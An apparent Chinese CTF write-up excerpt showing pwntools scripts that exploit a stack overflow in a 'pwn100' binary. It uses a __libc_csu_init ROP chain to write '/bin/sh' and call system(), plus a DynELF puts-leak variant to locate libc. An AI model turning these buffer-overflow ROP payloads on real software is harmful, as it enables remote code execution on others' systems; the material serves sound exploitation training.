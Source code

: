 ```python
print "success get libc_base",hex(libc_base)
system_addr=libc_base+libc.symbols['system']

ret2__libc_csu_init=0x40075A
read_got=elf.got['read']
read_bin_sh_to_memory=0x60107c  #0x601050
mov_call_addr=0x400740
payload2=72*'c'+p64(ret2__libc_csu_init)+p64(0)+p64(1)+p64(read_got)+p64(8)
payload2+=p64(read_bin_sh_to_memory)+p64(0)+p64(mov_call_addr)+'A'*56+p64(start_addr)
payload2=payload2.ljust(200,'e')
p.send(payload2)
p.send('/bin/sh\x00')
p.recvuntil('bye~')
#gdb.attach(p)
payload3=72*'a'+p64(pop_rdi_ret)+p64(read_bin_sh_to_memory)+p64(system_addr)+p64(0xdeadbeef)
payload3=payload3.ljust(200,'f')
p.sendline(payload3)

sleep(0.2)
p.sendline('ls')
sleep(0.2)
p.sendline('cat flag')
p.interactive()
```

当然，在本地使用DynELF是不允许挂载本地的libc的，我们尝试按原来的方法将如上脚本更改一下：

```python
#coding=utf-8
from pwn import *
#context.log_level='debug'

p=process('./pwn100')
elf=ELF('./pwn100')
#libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')

puts_plt = elf.plt['puts']
# puts_got=elf.got['puts']
pop_rdi_ret = 0x400763
main_addr = 0x4006B8
start_addr = 0x400550
def leak(addr):
    #payload=72*'a'+p64(pop_rdi_ret)+p64(puts_got)+p64(puts_plt)+p64(main_addr)
    payload=72*'a'+p64(pop_rdi_ret)+p64(addr)+p64(puts_plt)+p64(start_addr)
    payload=payload.ljust(200,'b')
    p.send(payload)
    #leak_addr=p.recv()[5:].ljust(8,'\x00')
    leak_addr=p.recv()[5:]
    log.info("%#x => %s" % (addr, (leak_addr or '').encode('hex')))
    return leak_addr
'''
[DEBUG] Received 0xc bytes:
    00000000  62 79 65 7e  0a a0 c6 a7  f7 ff 7f 0a               │bye~│····│····│
    0000000c
'''
#print "success leak addr",hex(leak_addr)
d=DynELF(leak,elf=elf)
system_addr = d.lookup('system', 'libc')
log.info("system_addr = %#x", system_addr)

#libc_base=leak_addr-libc.symbols['puts']
#print "success get libc_base",hex(libc_base)
#system_addr=libc_base+libc.symbols['system']

```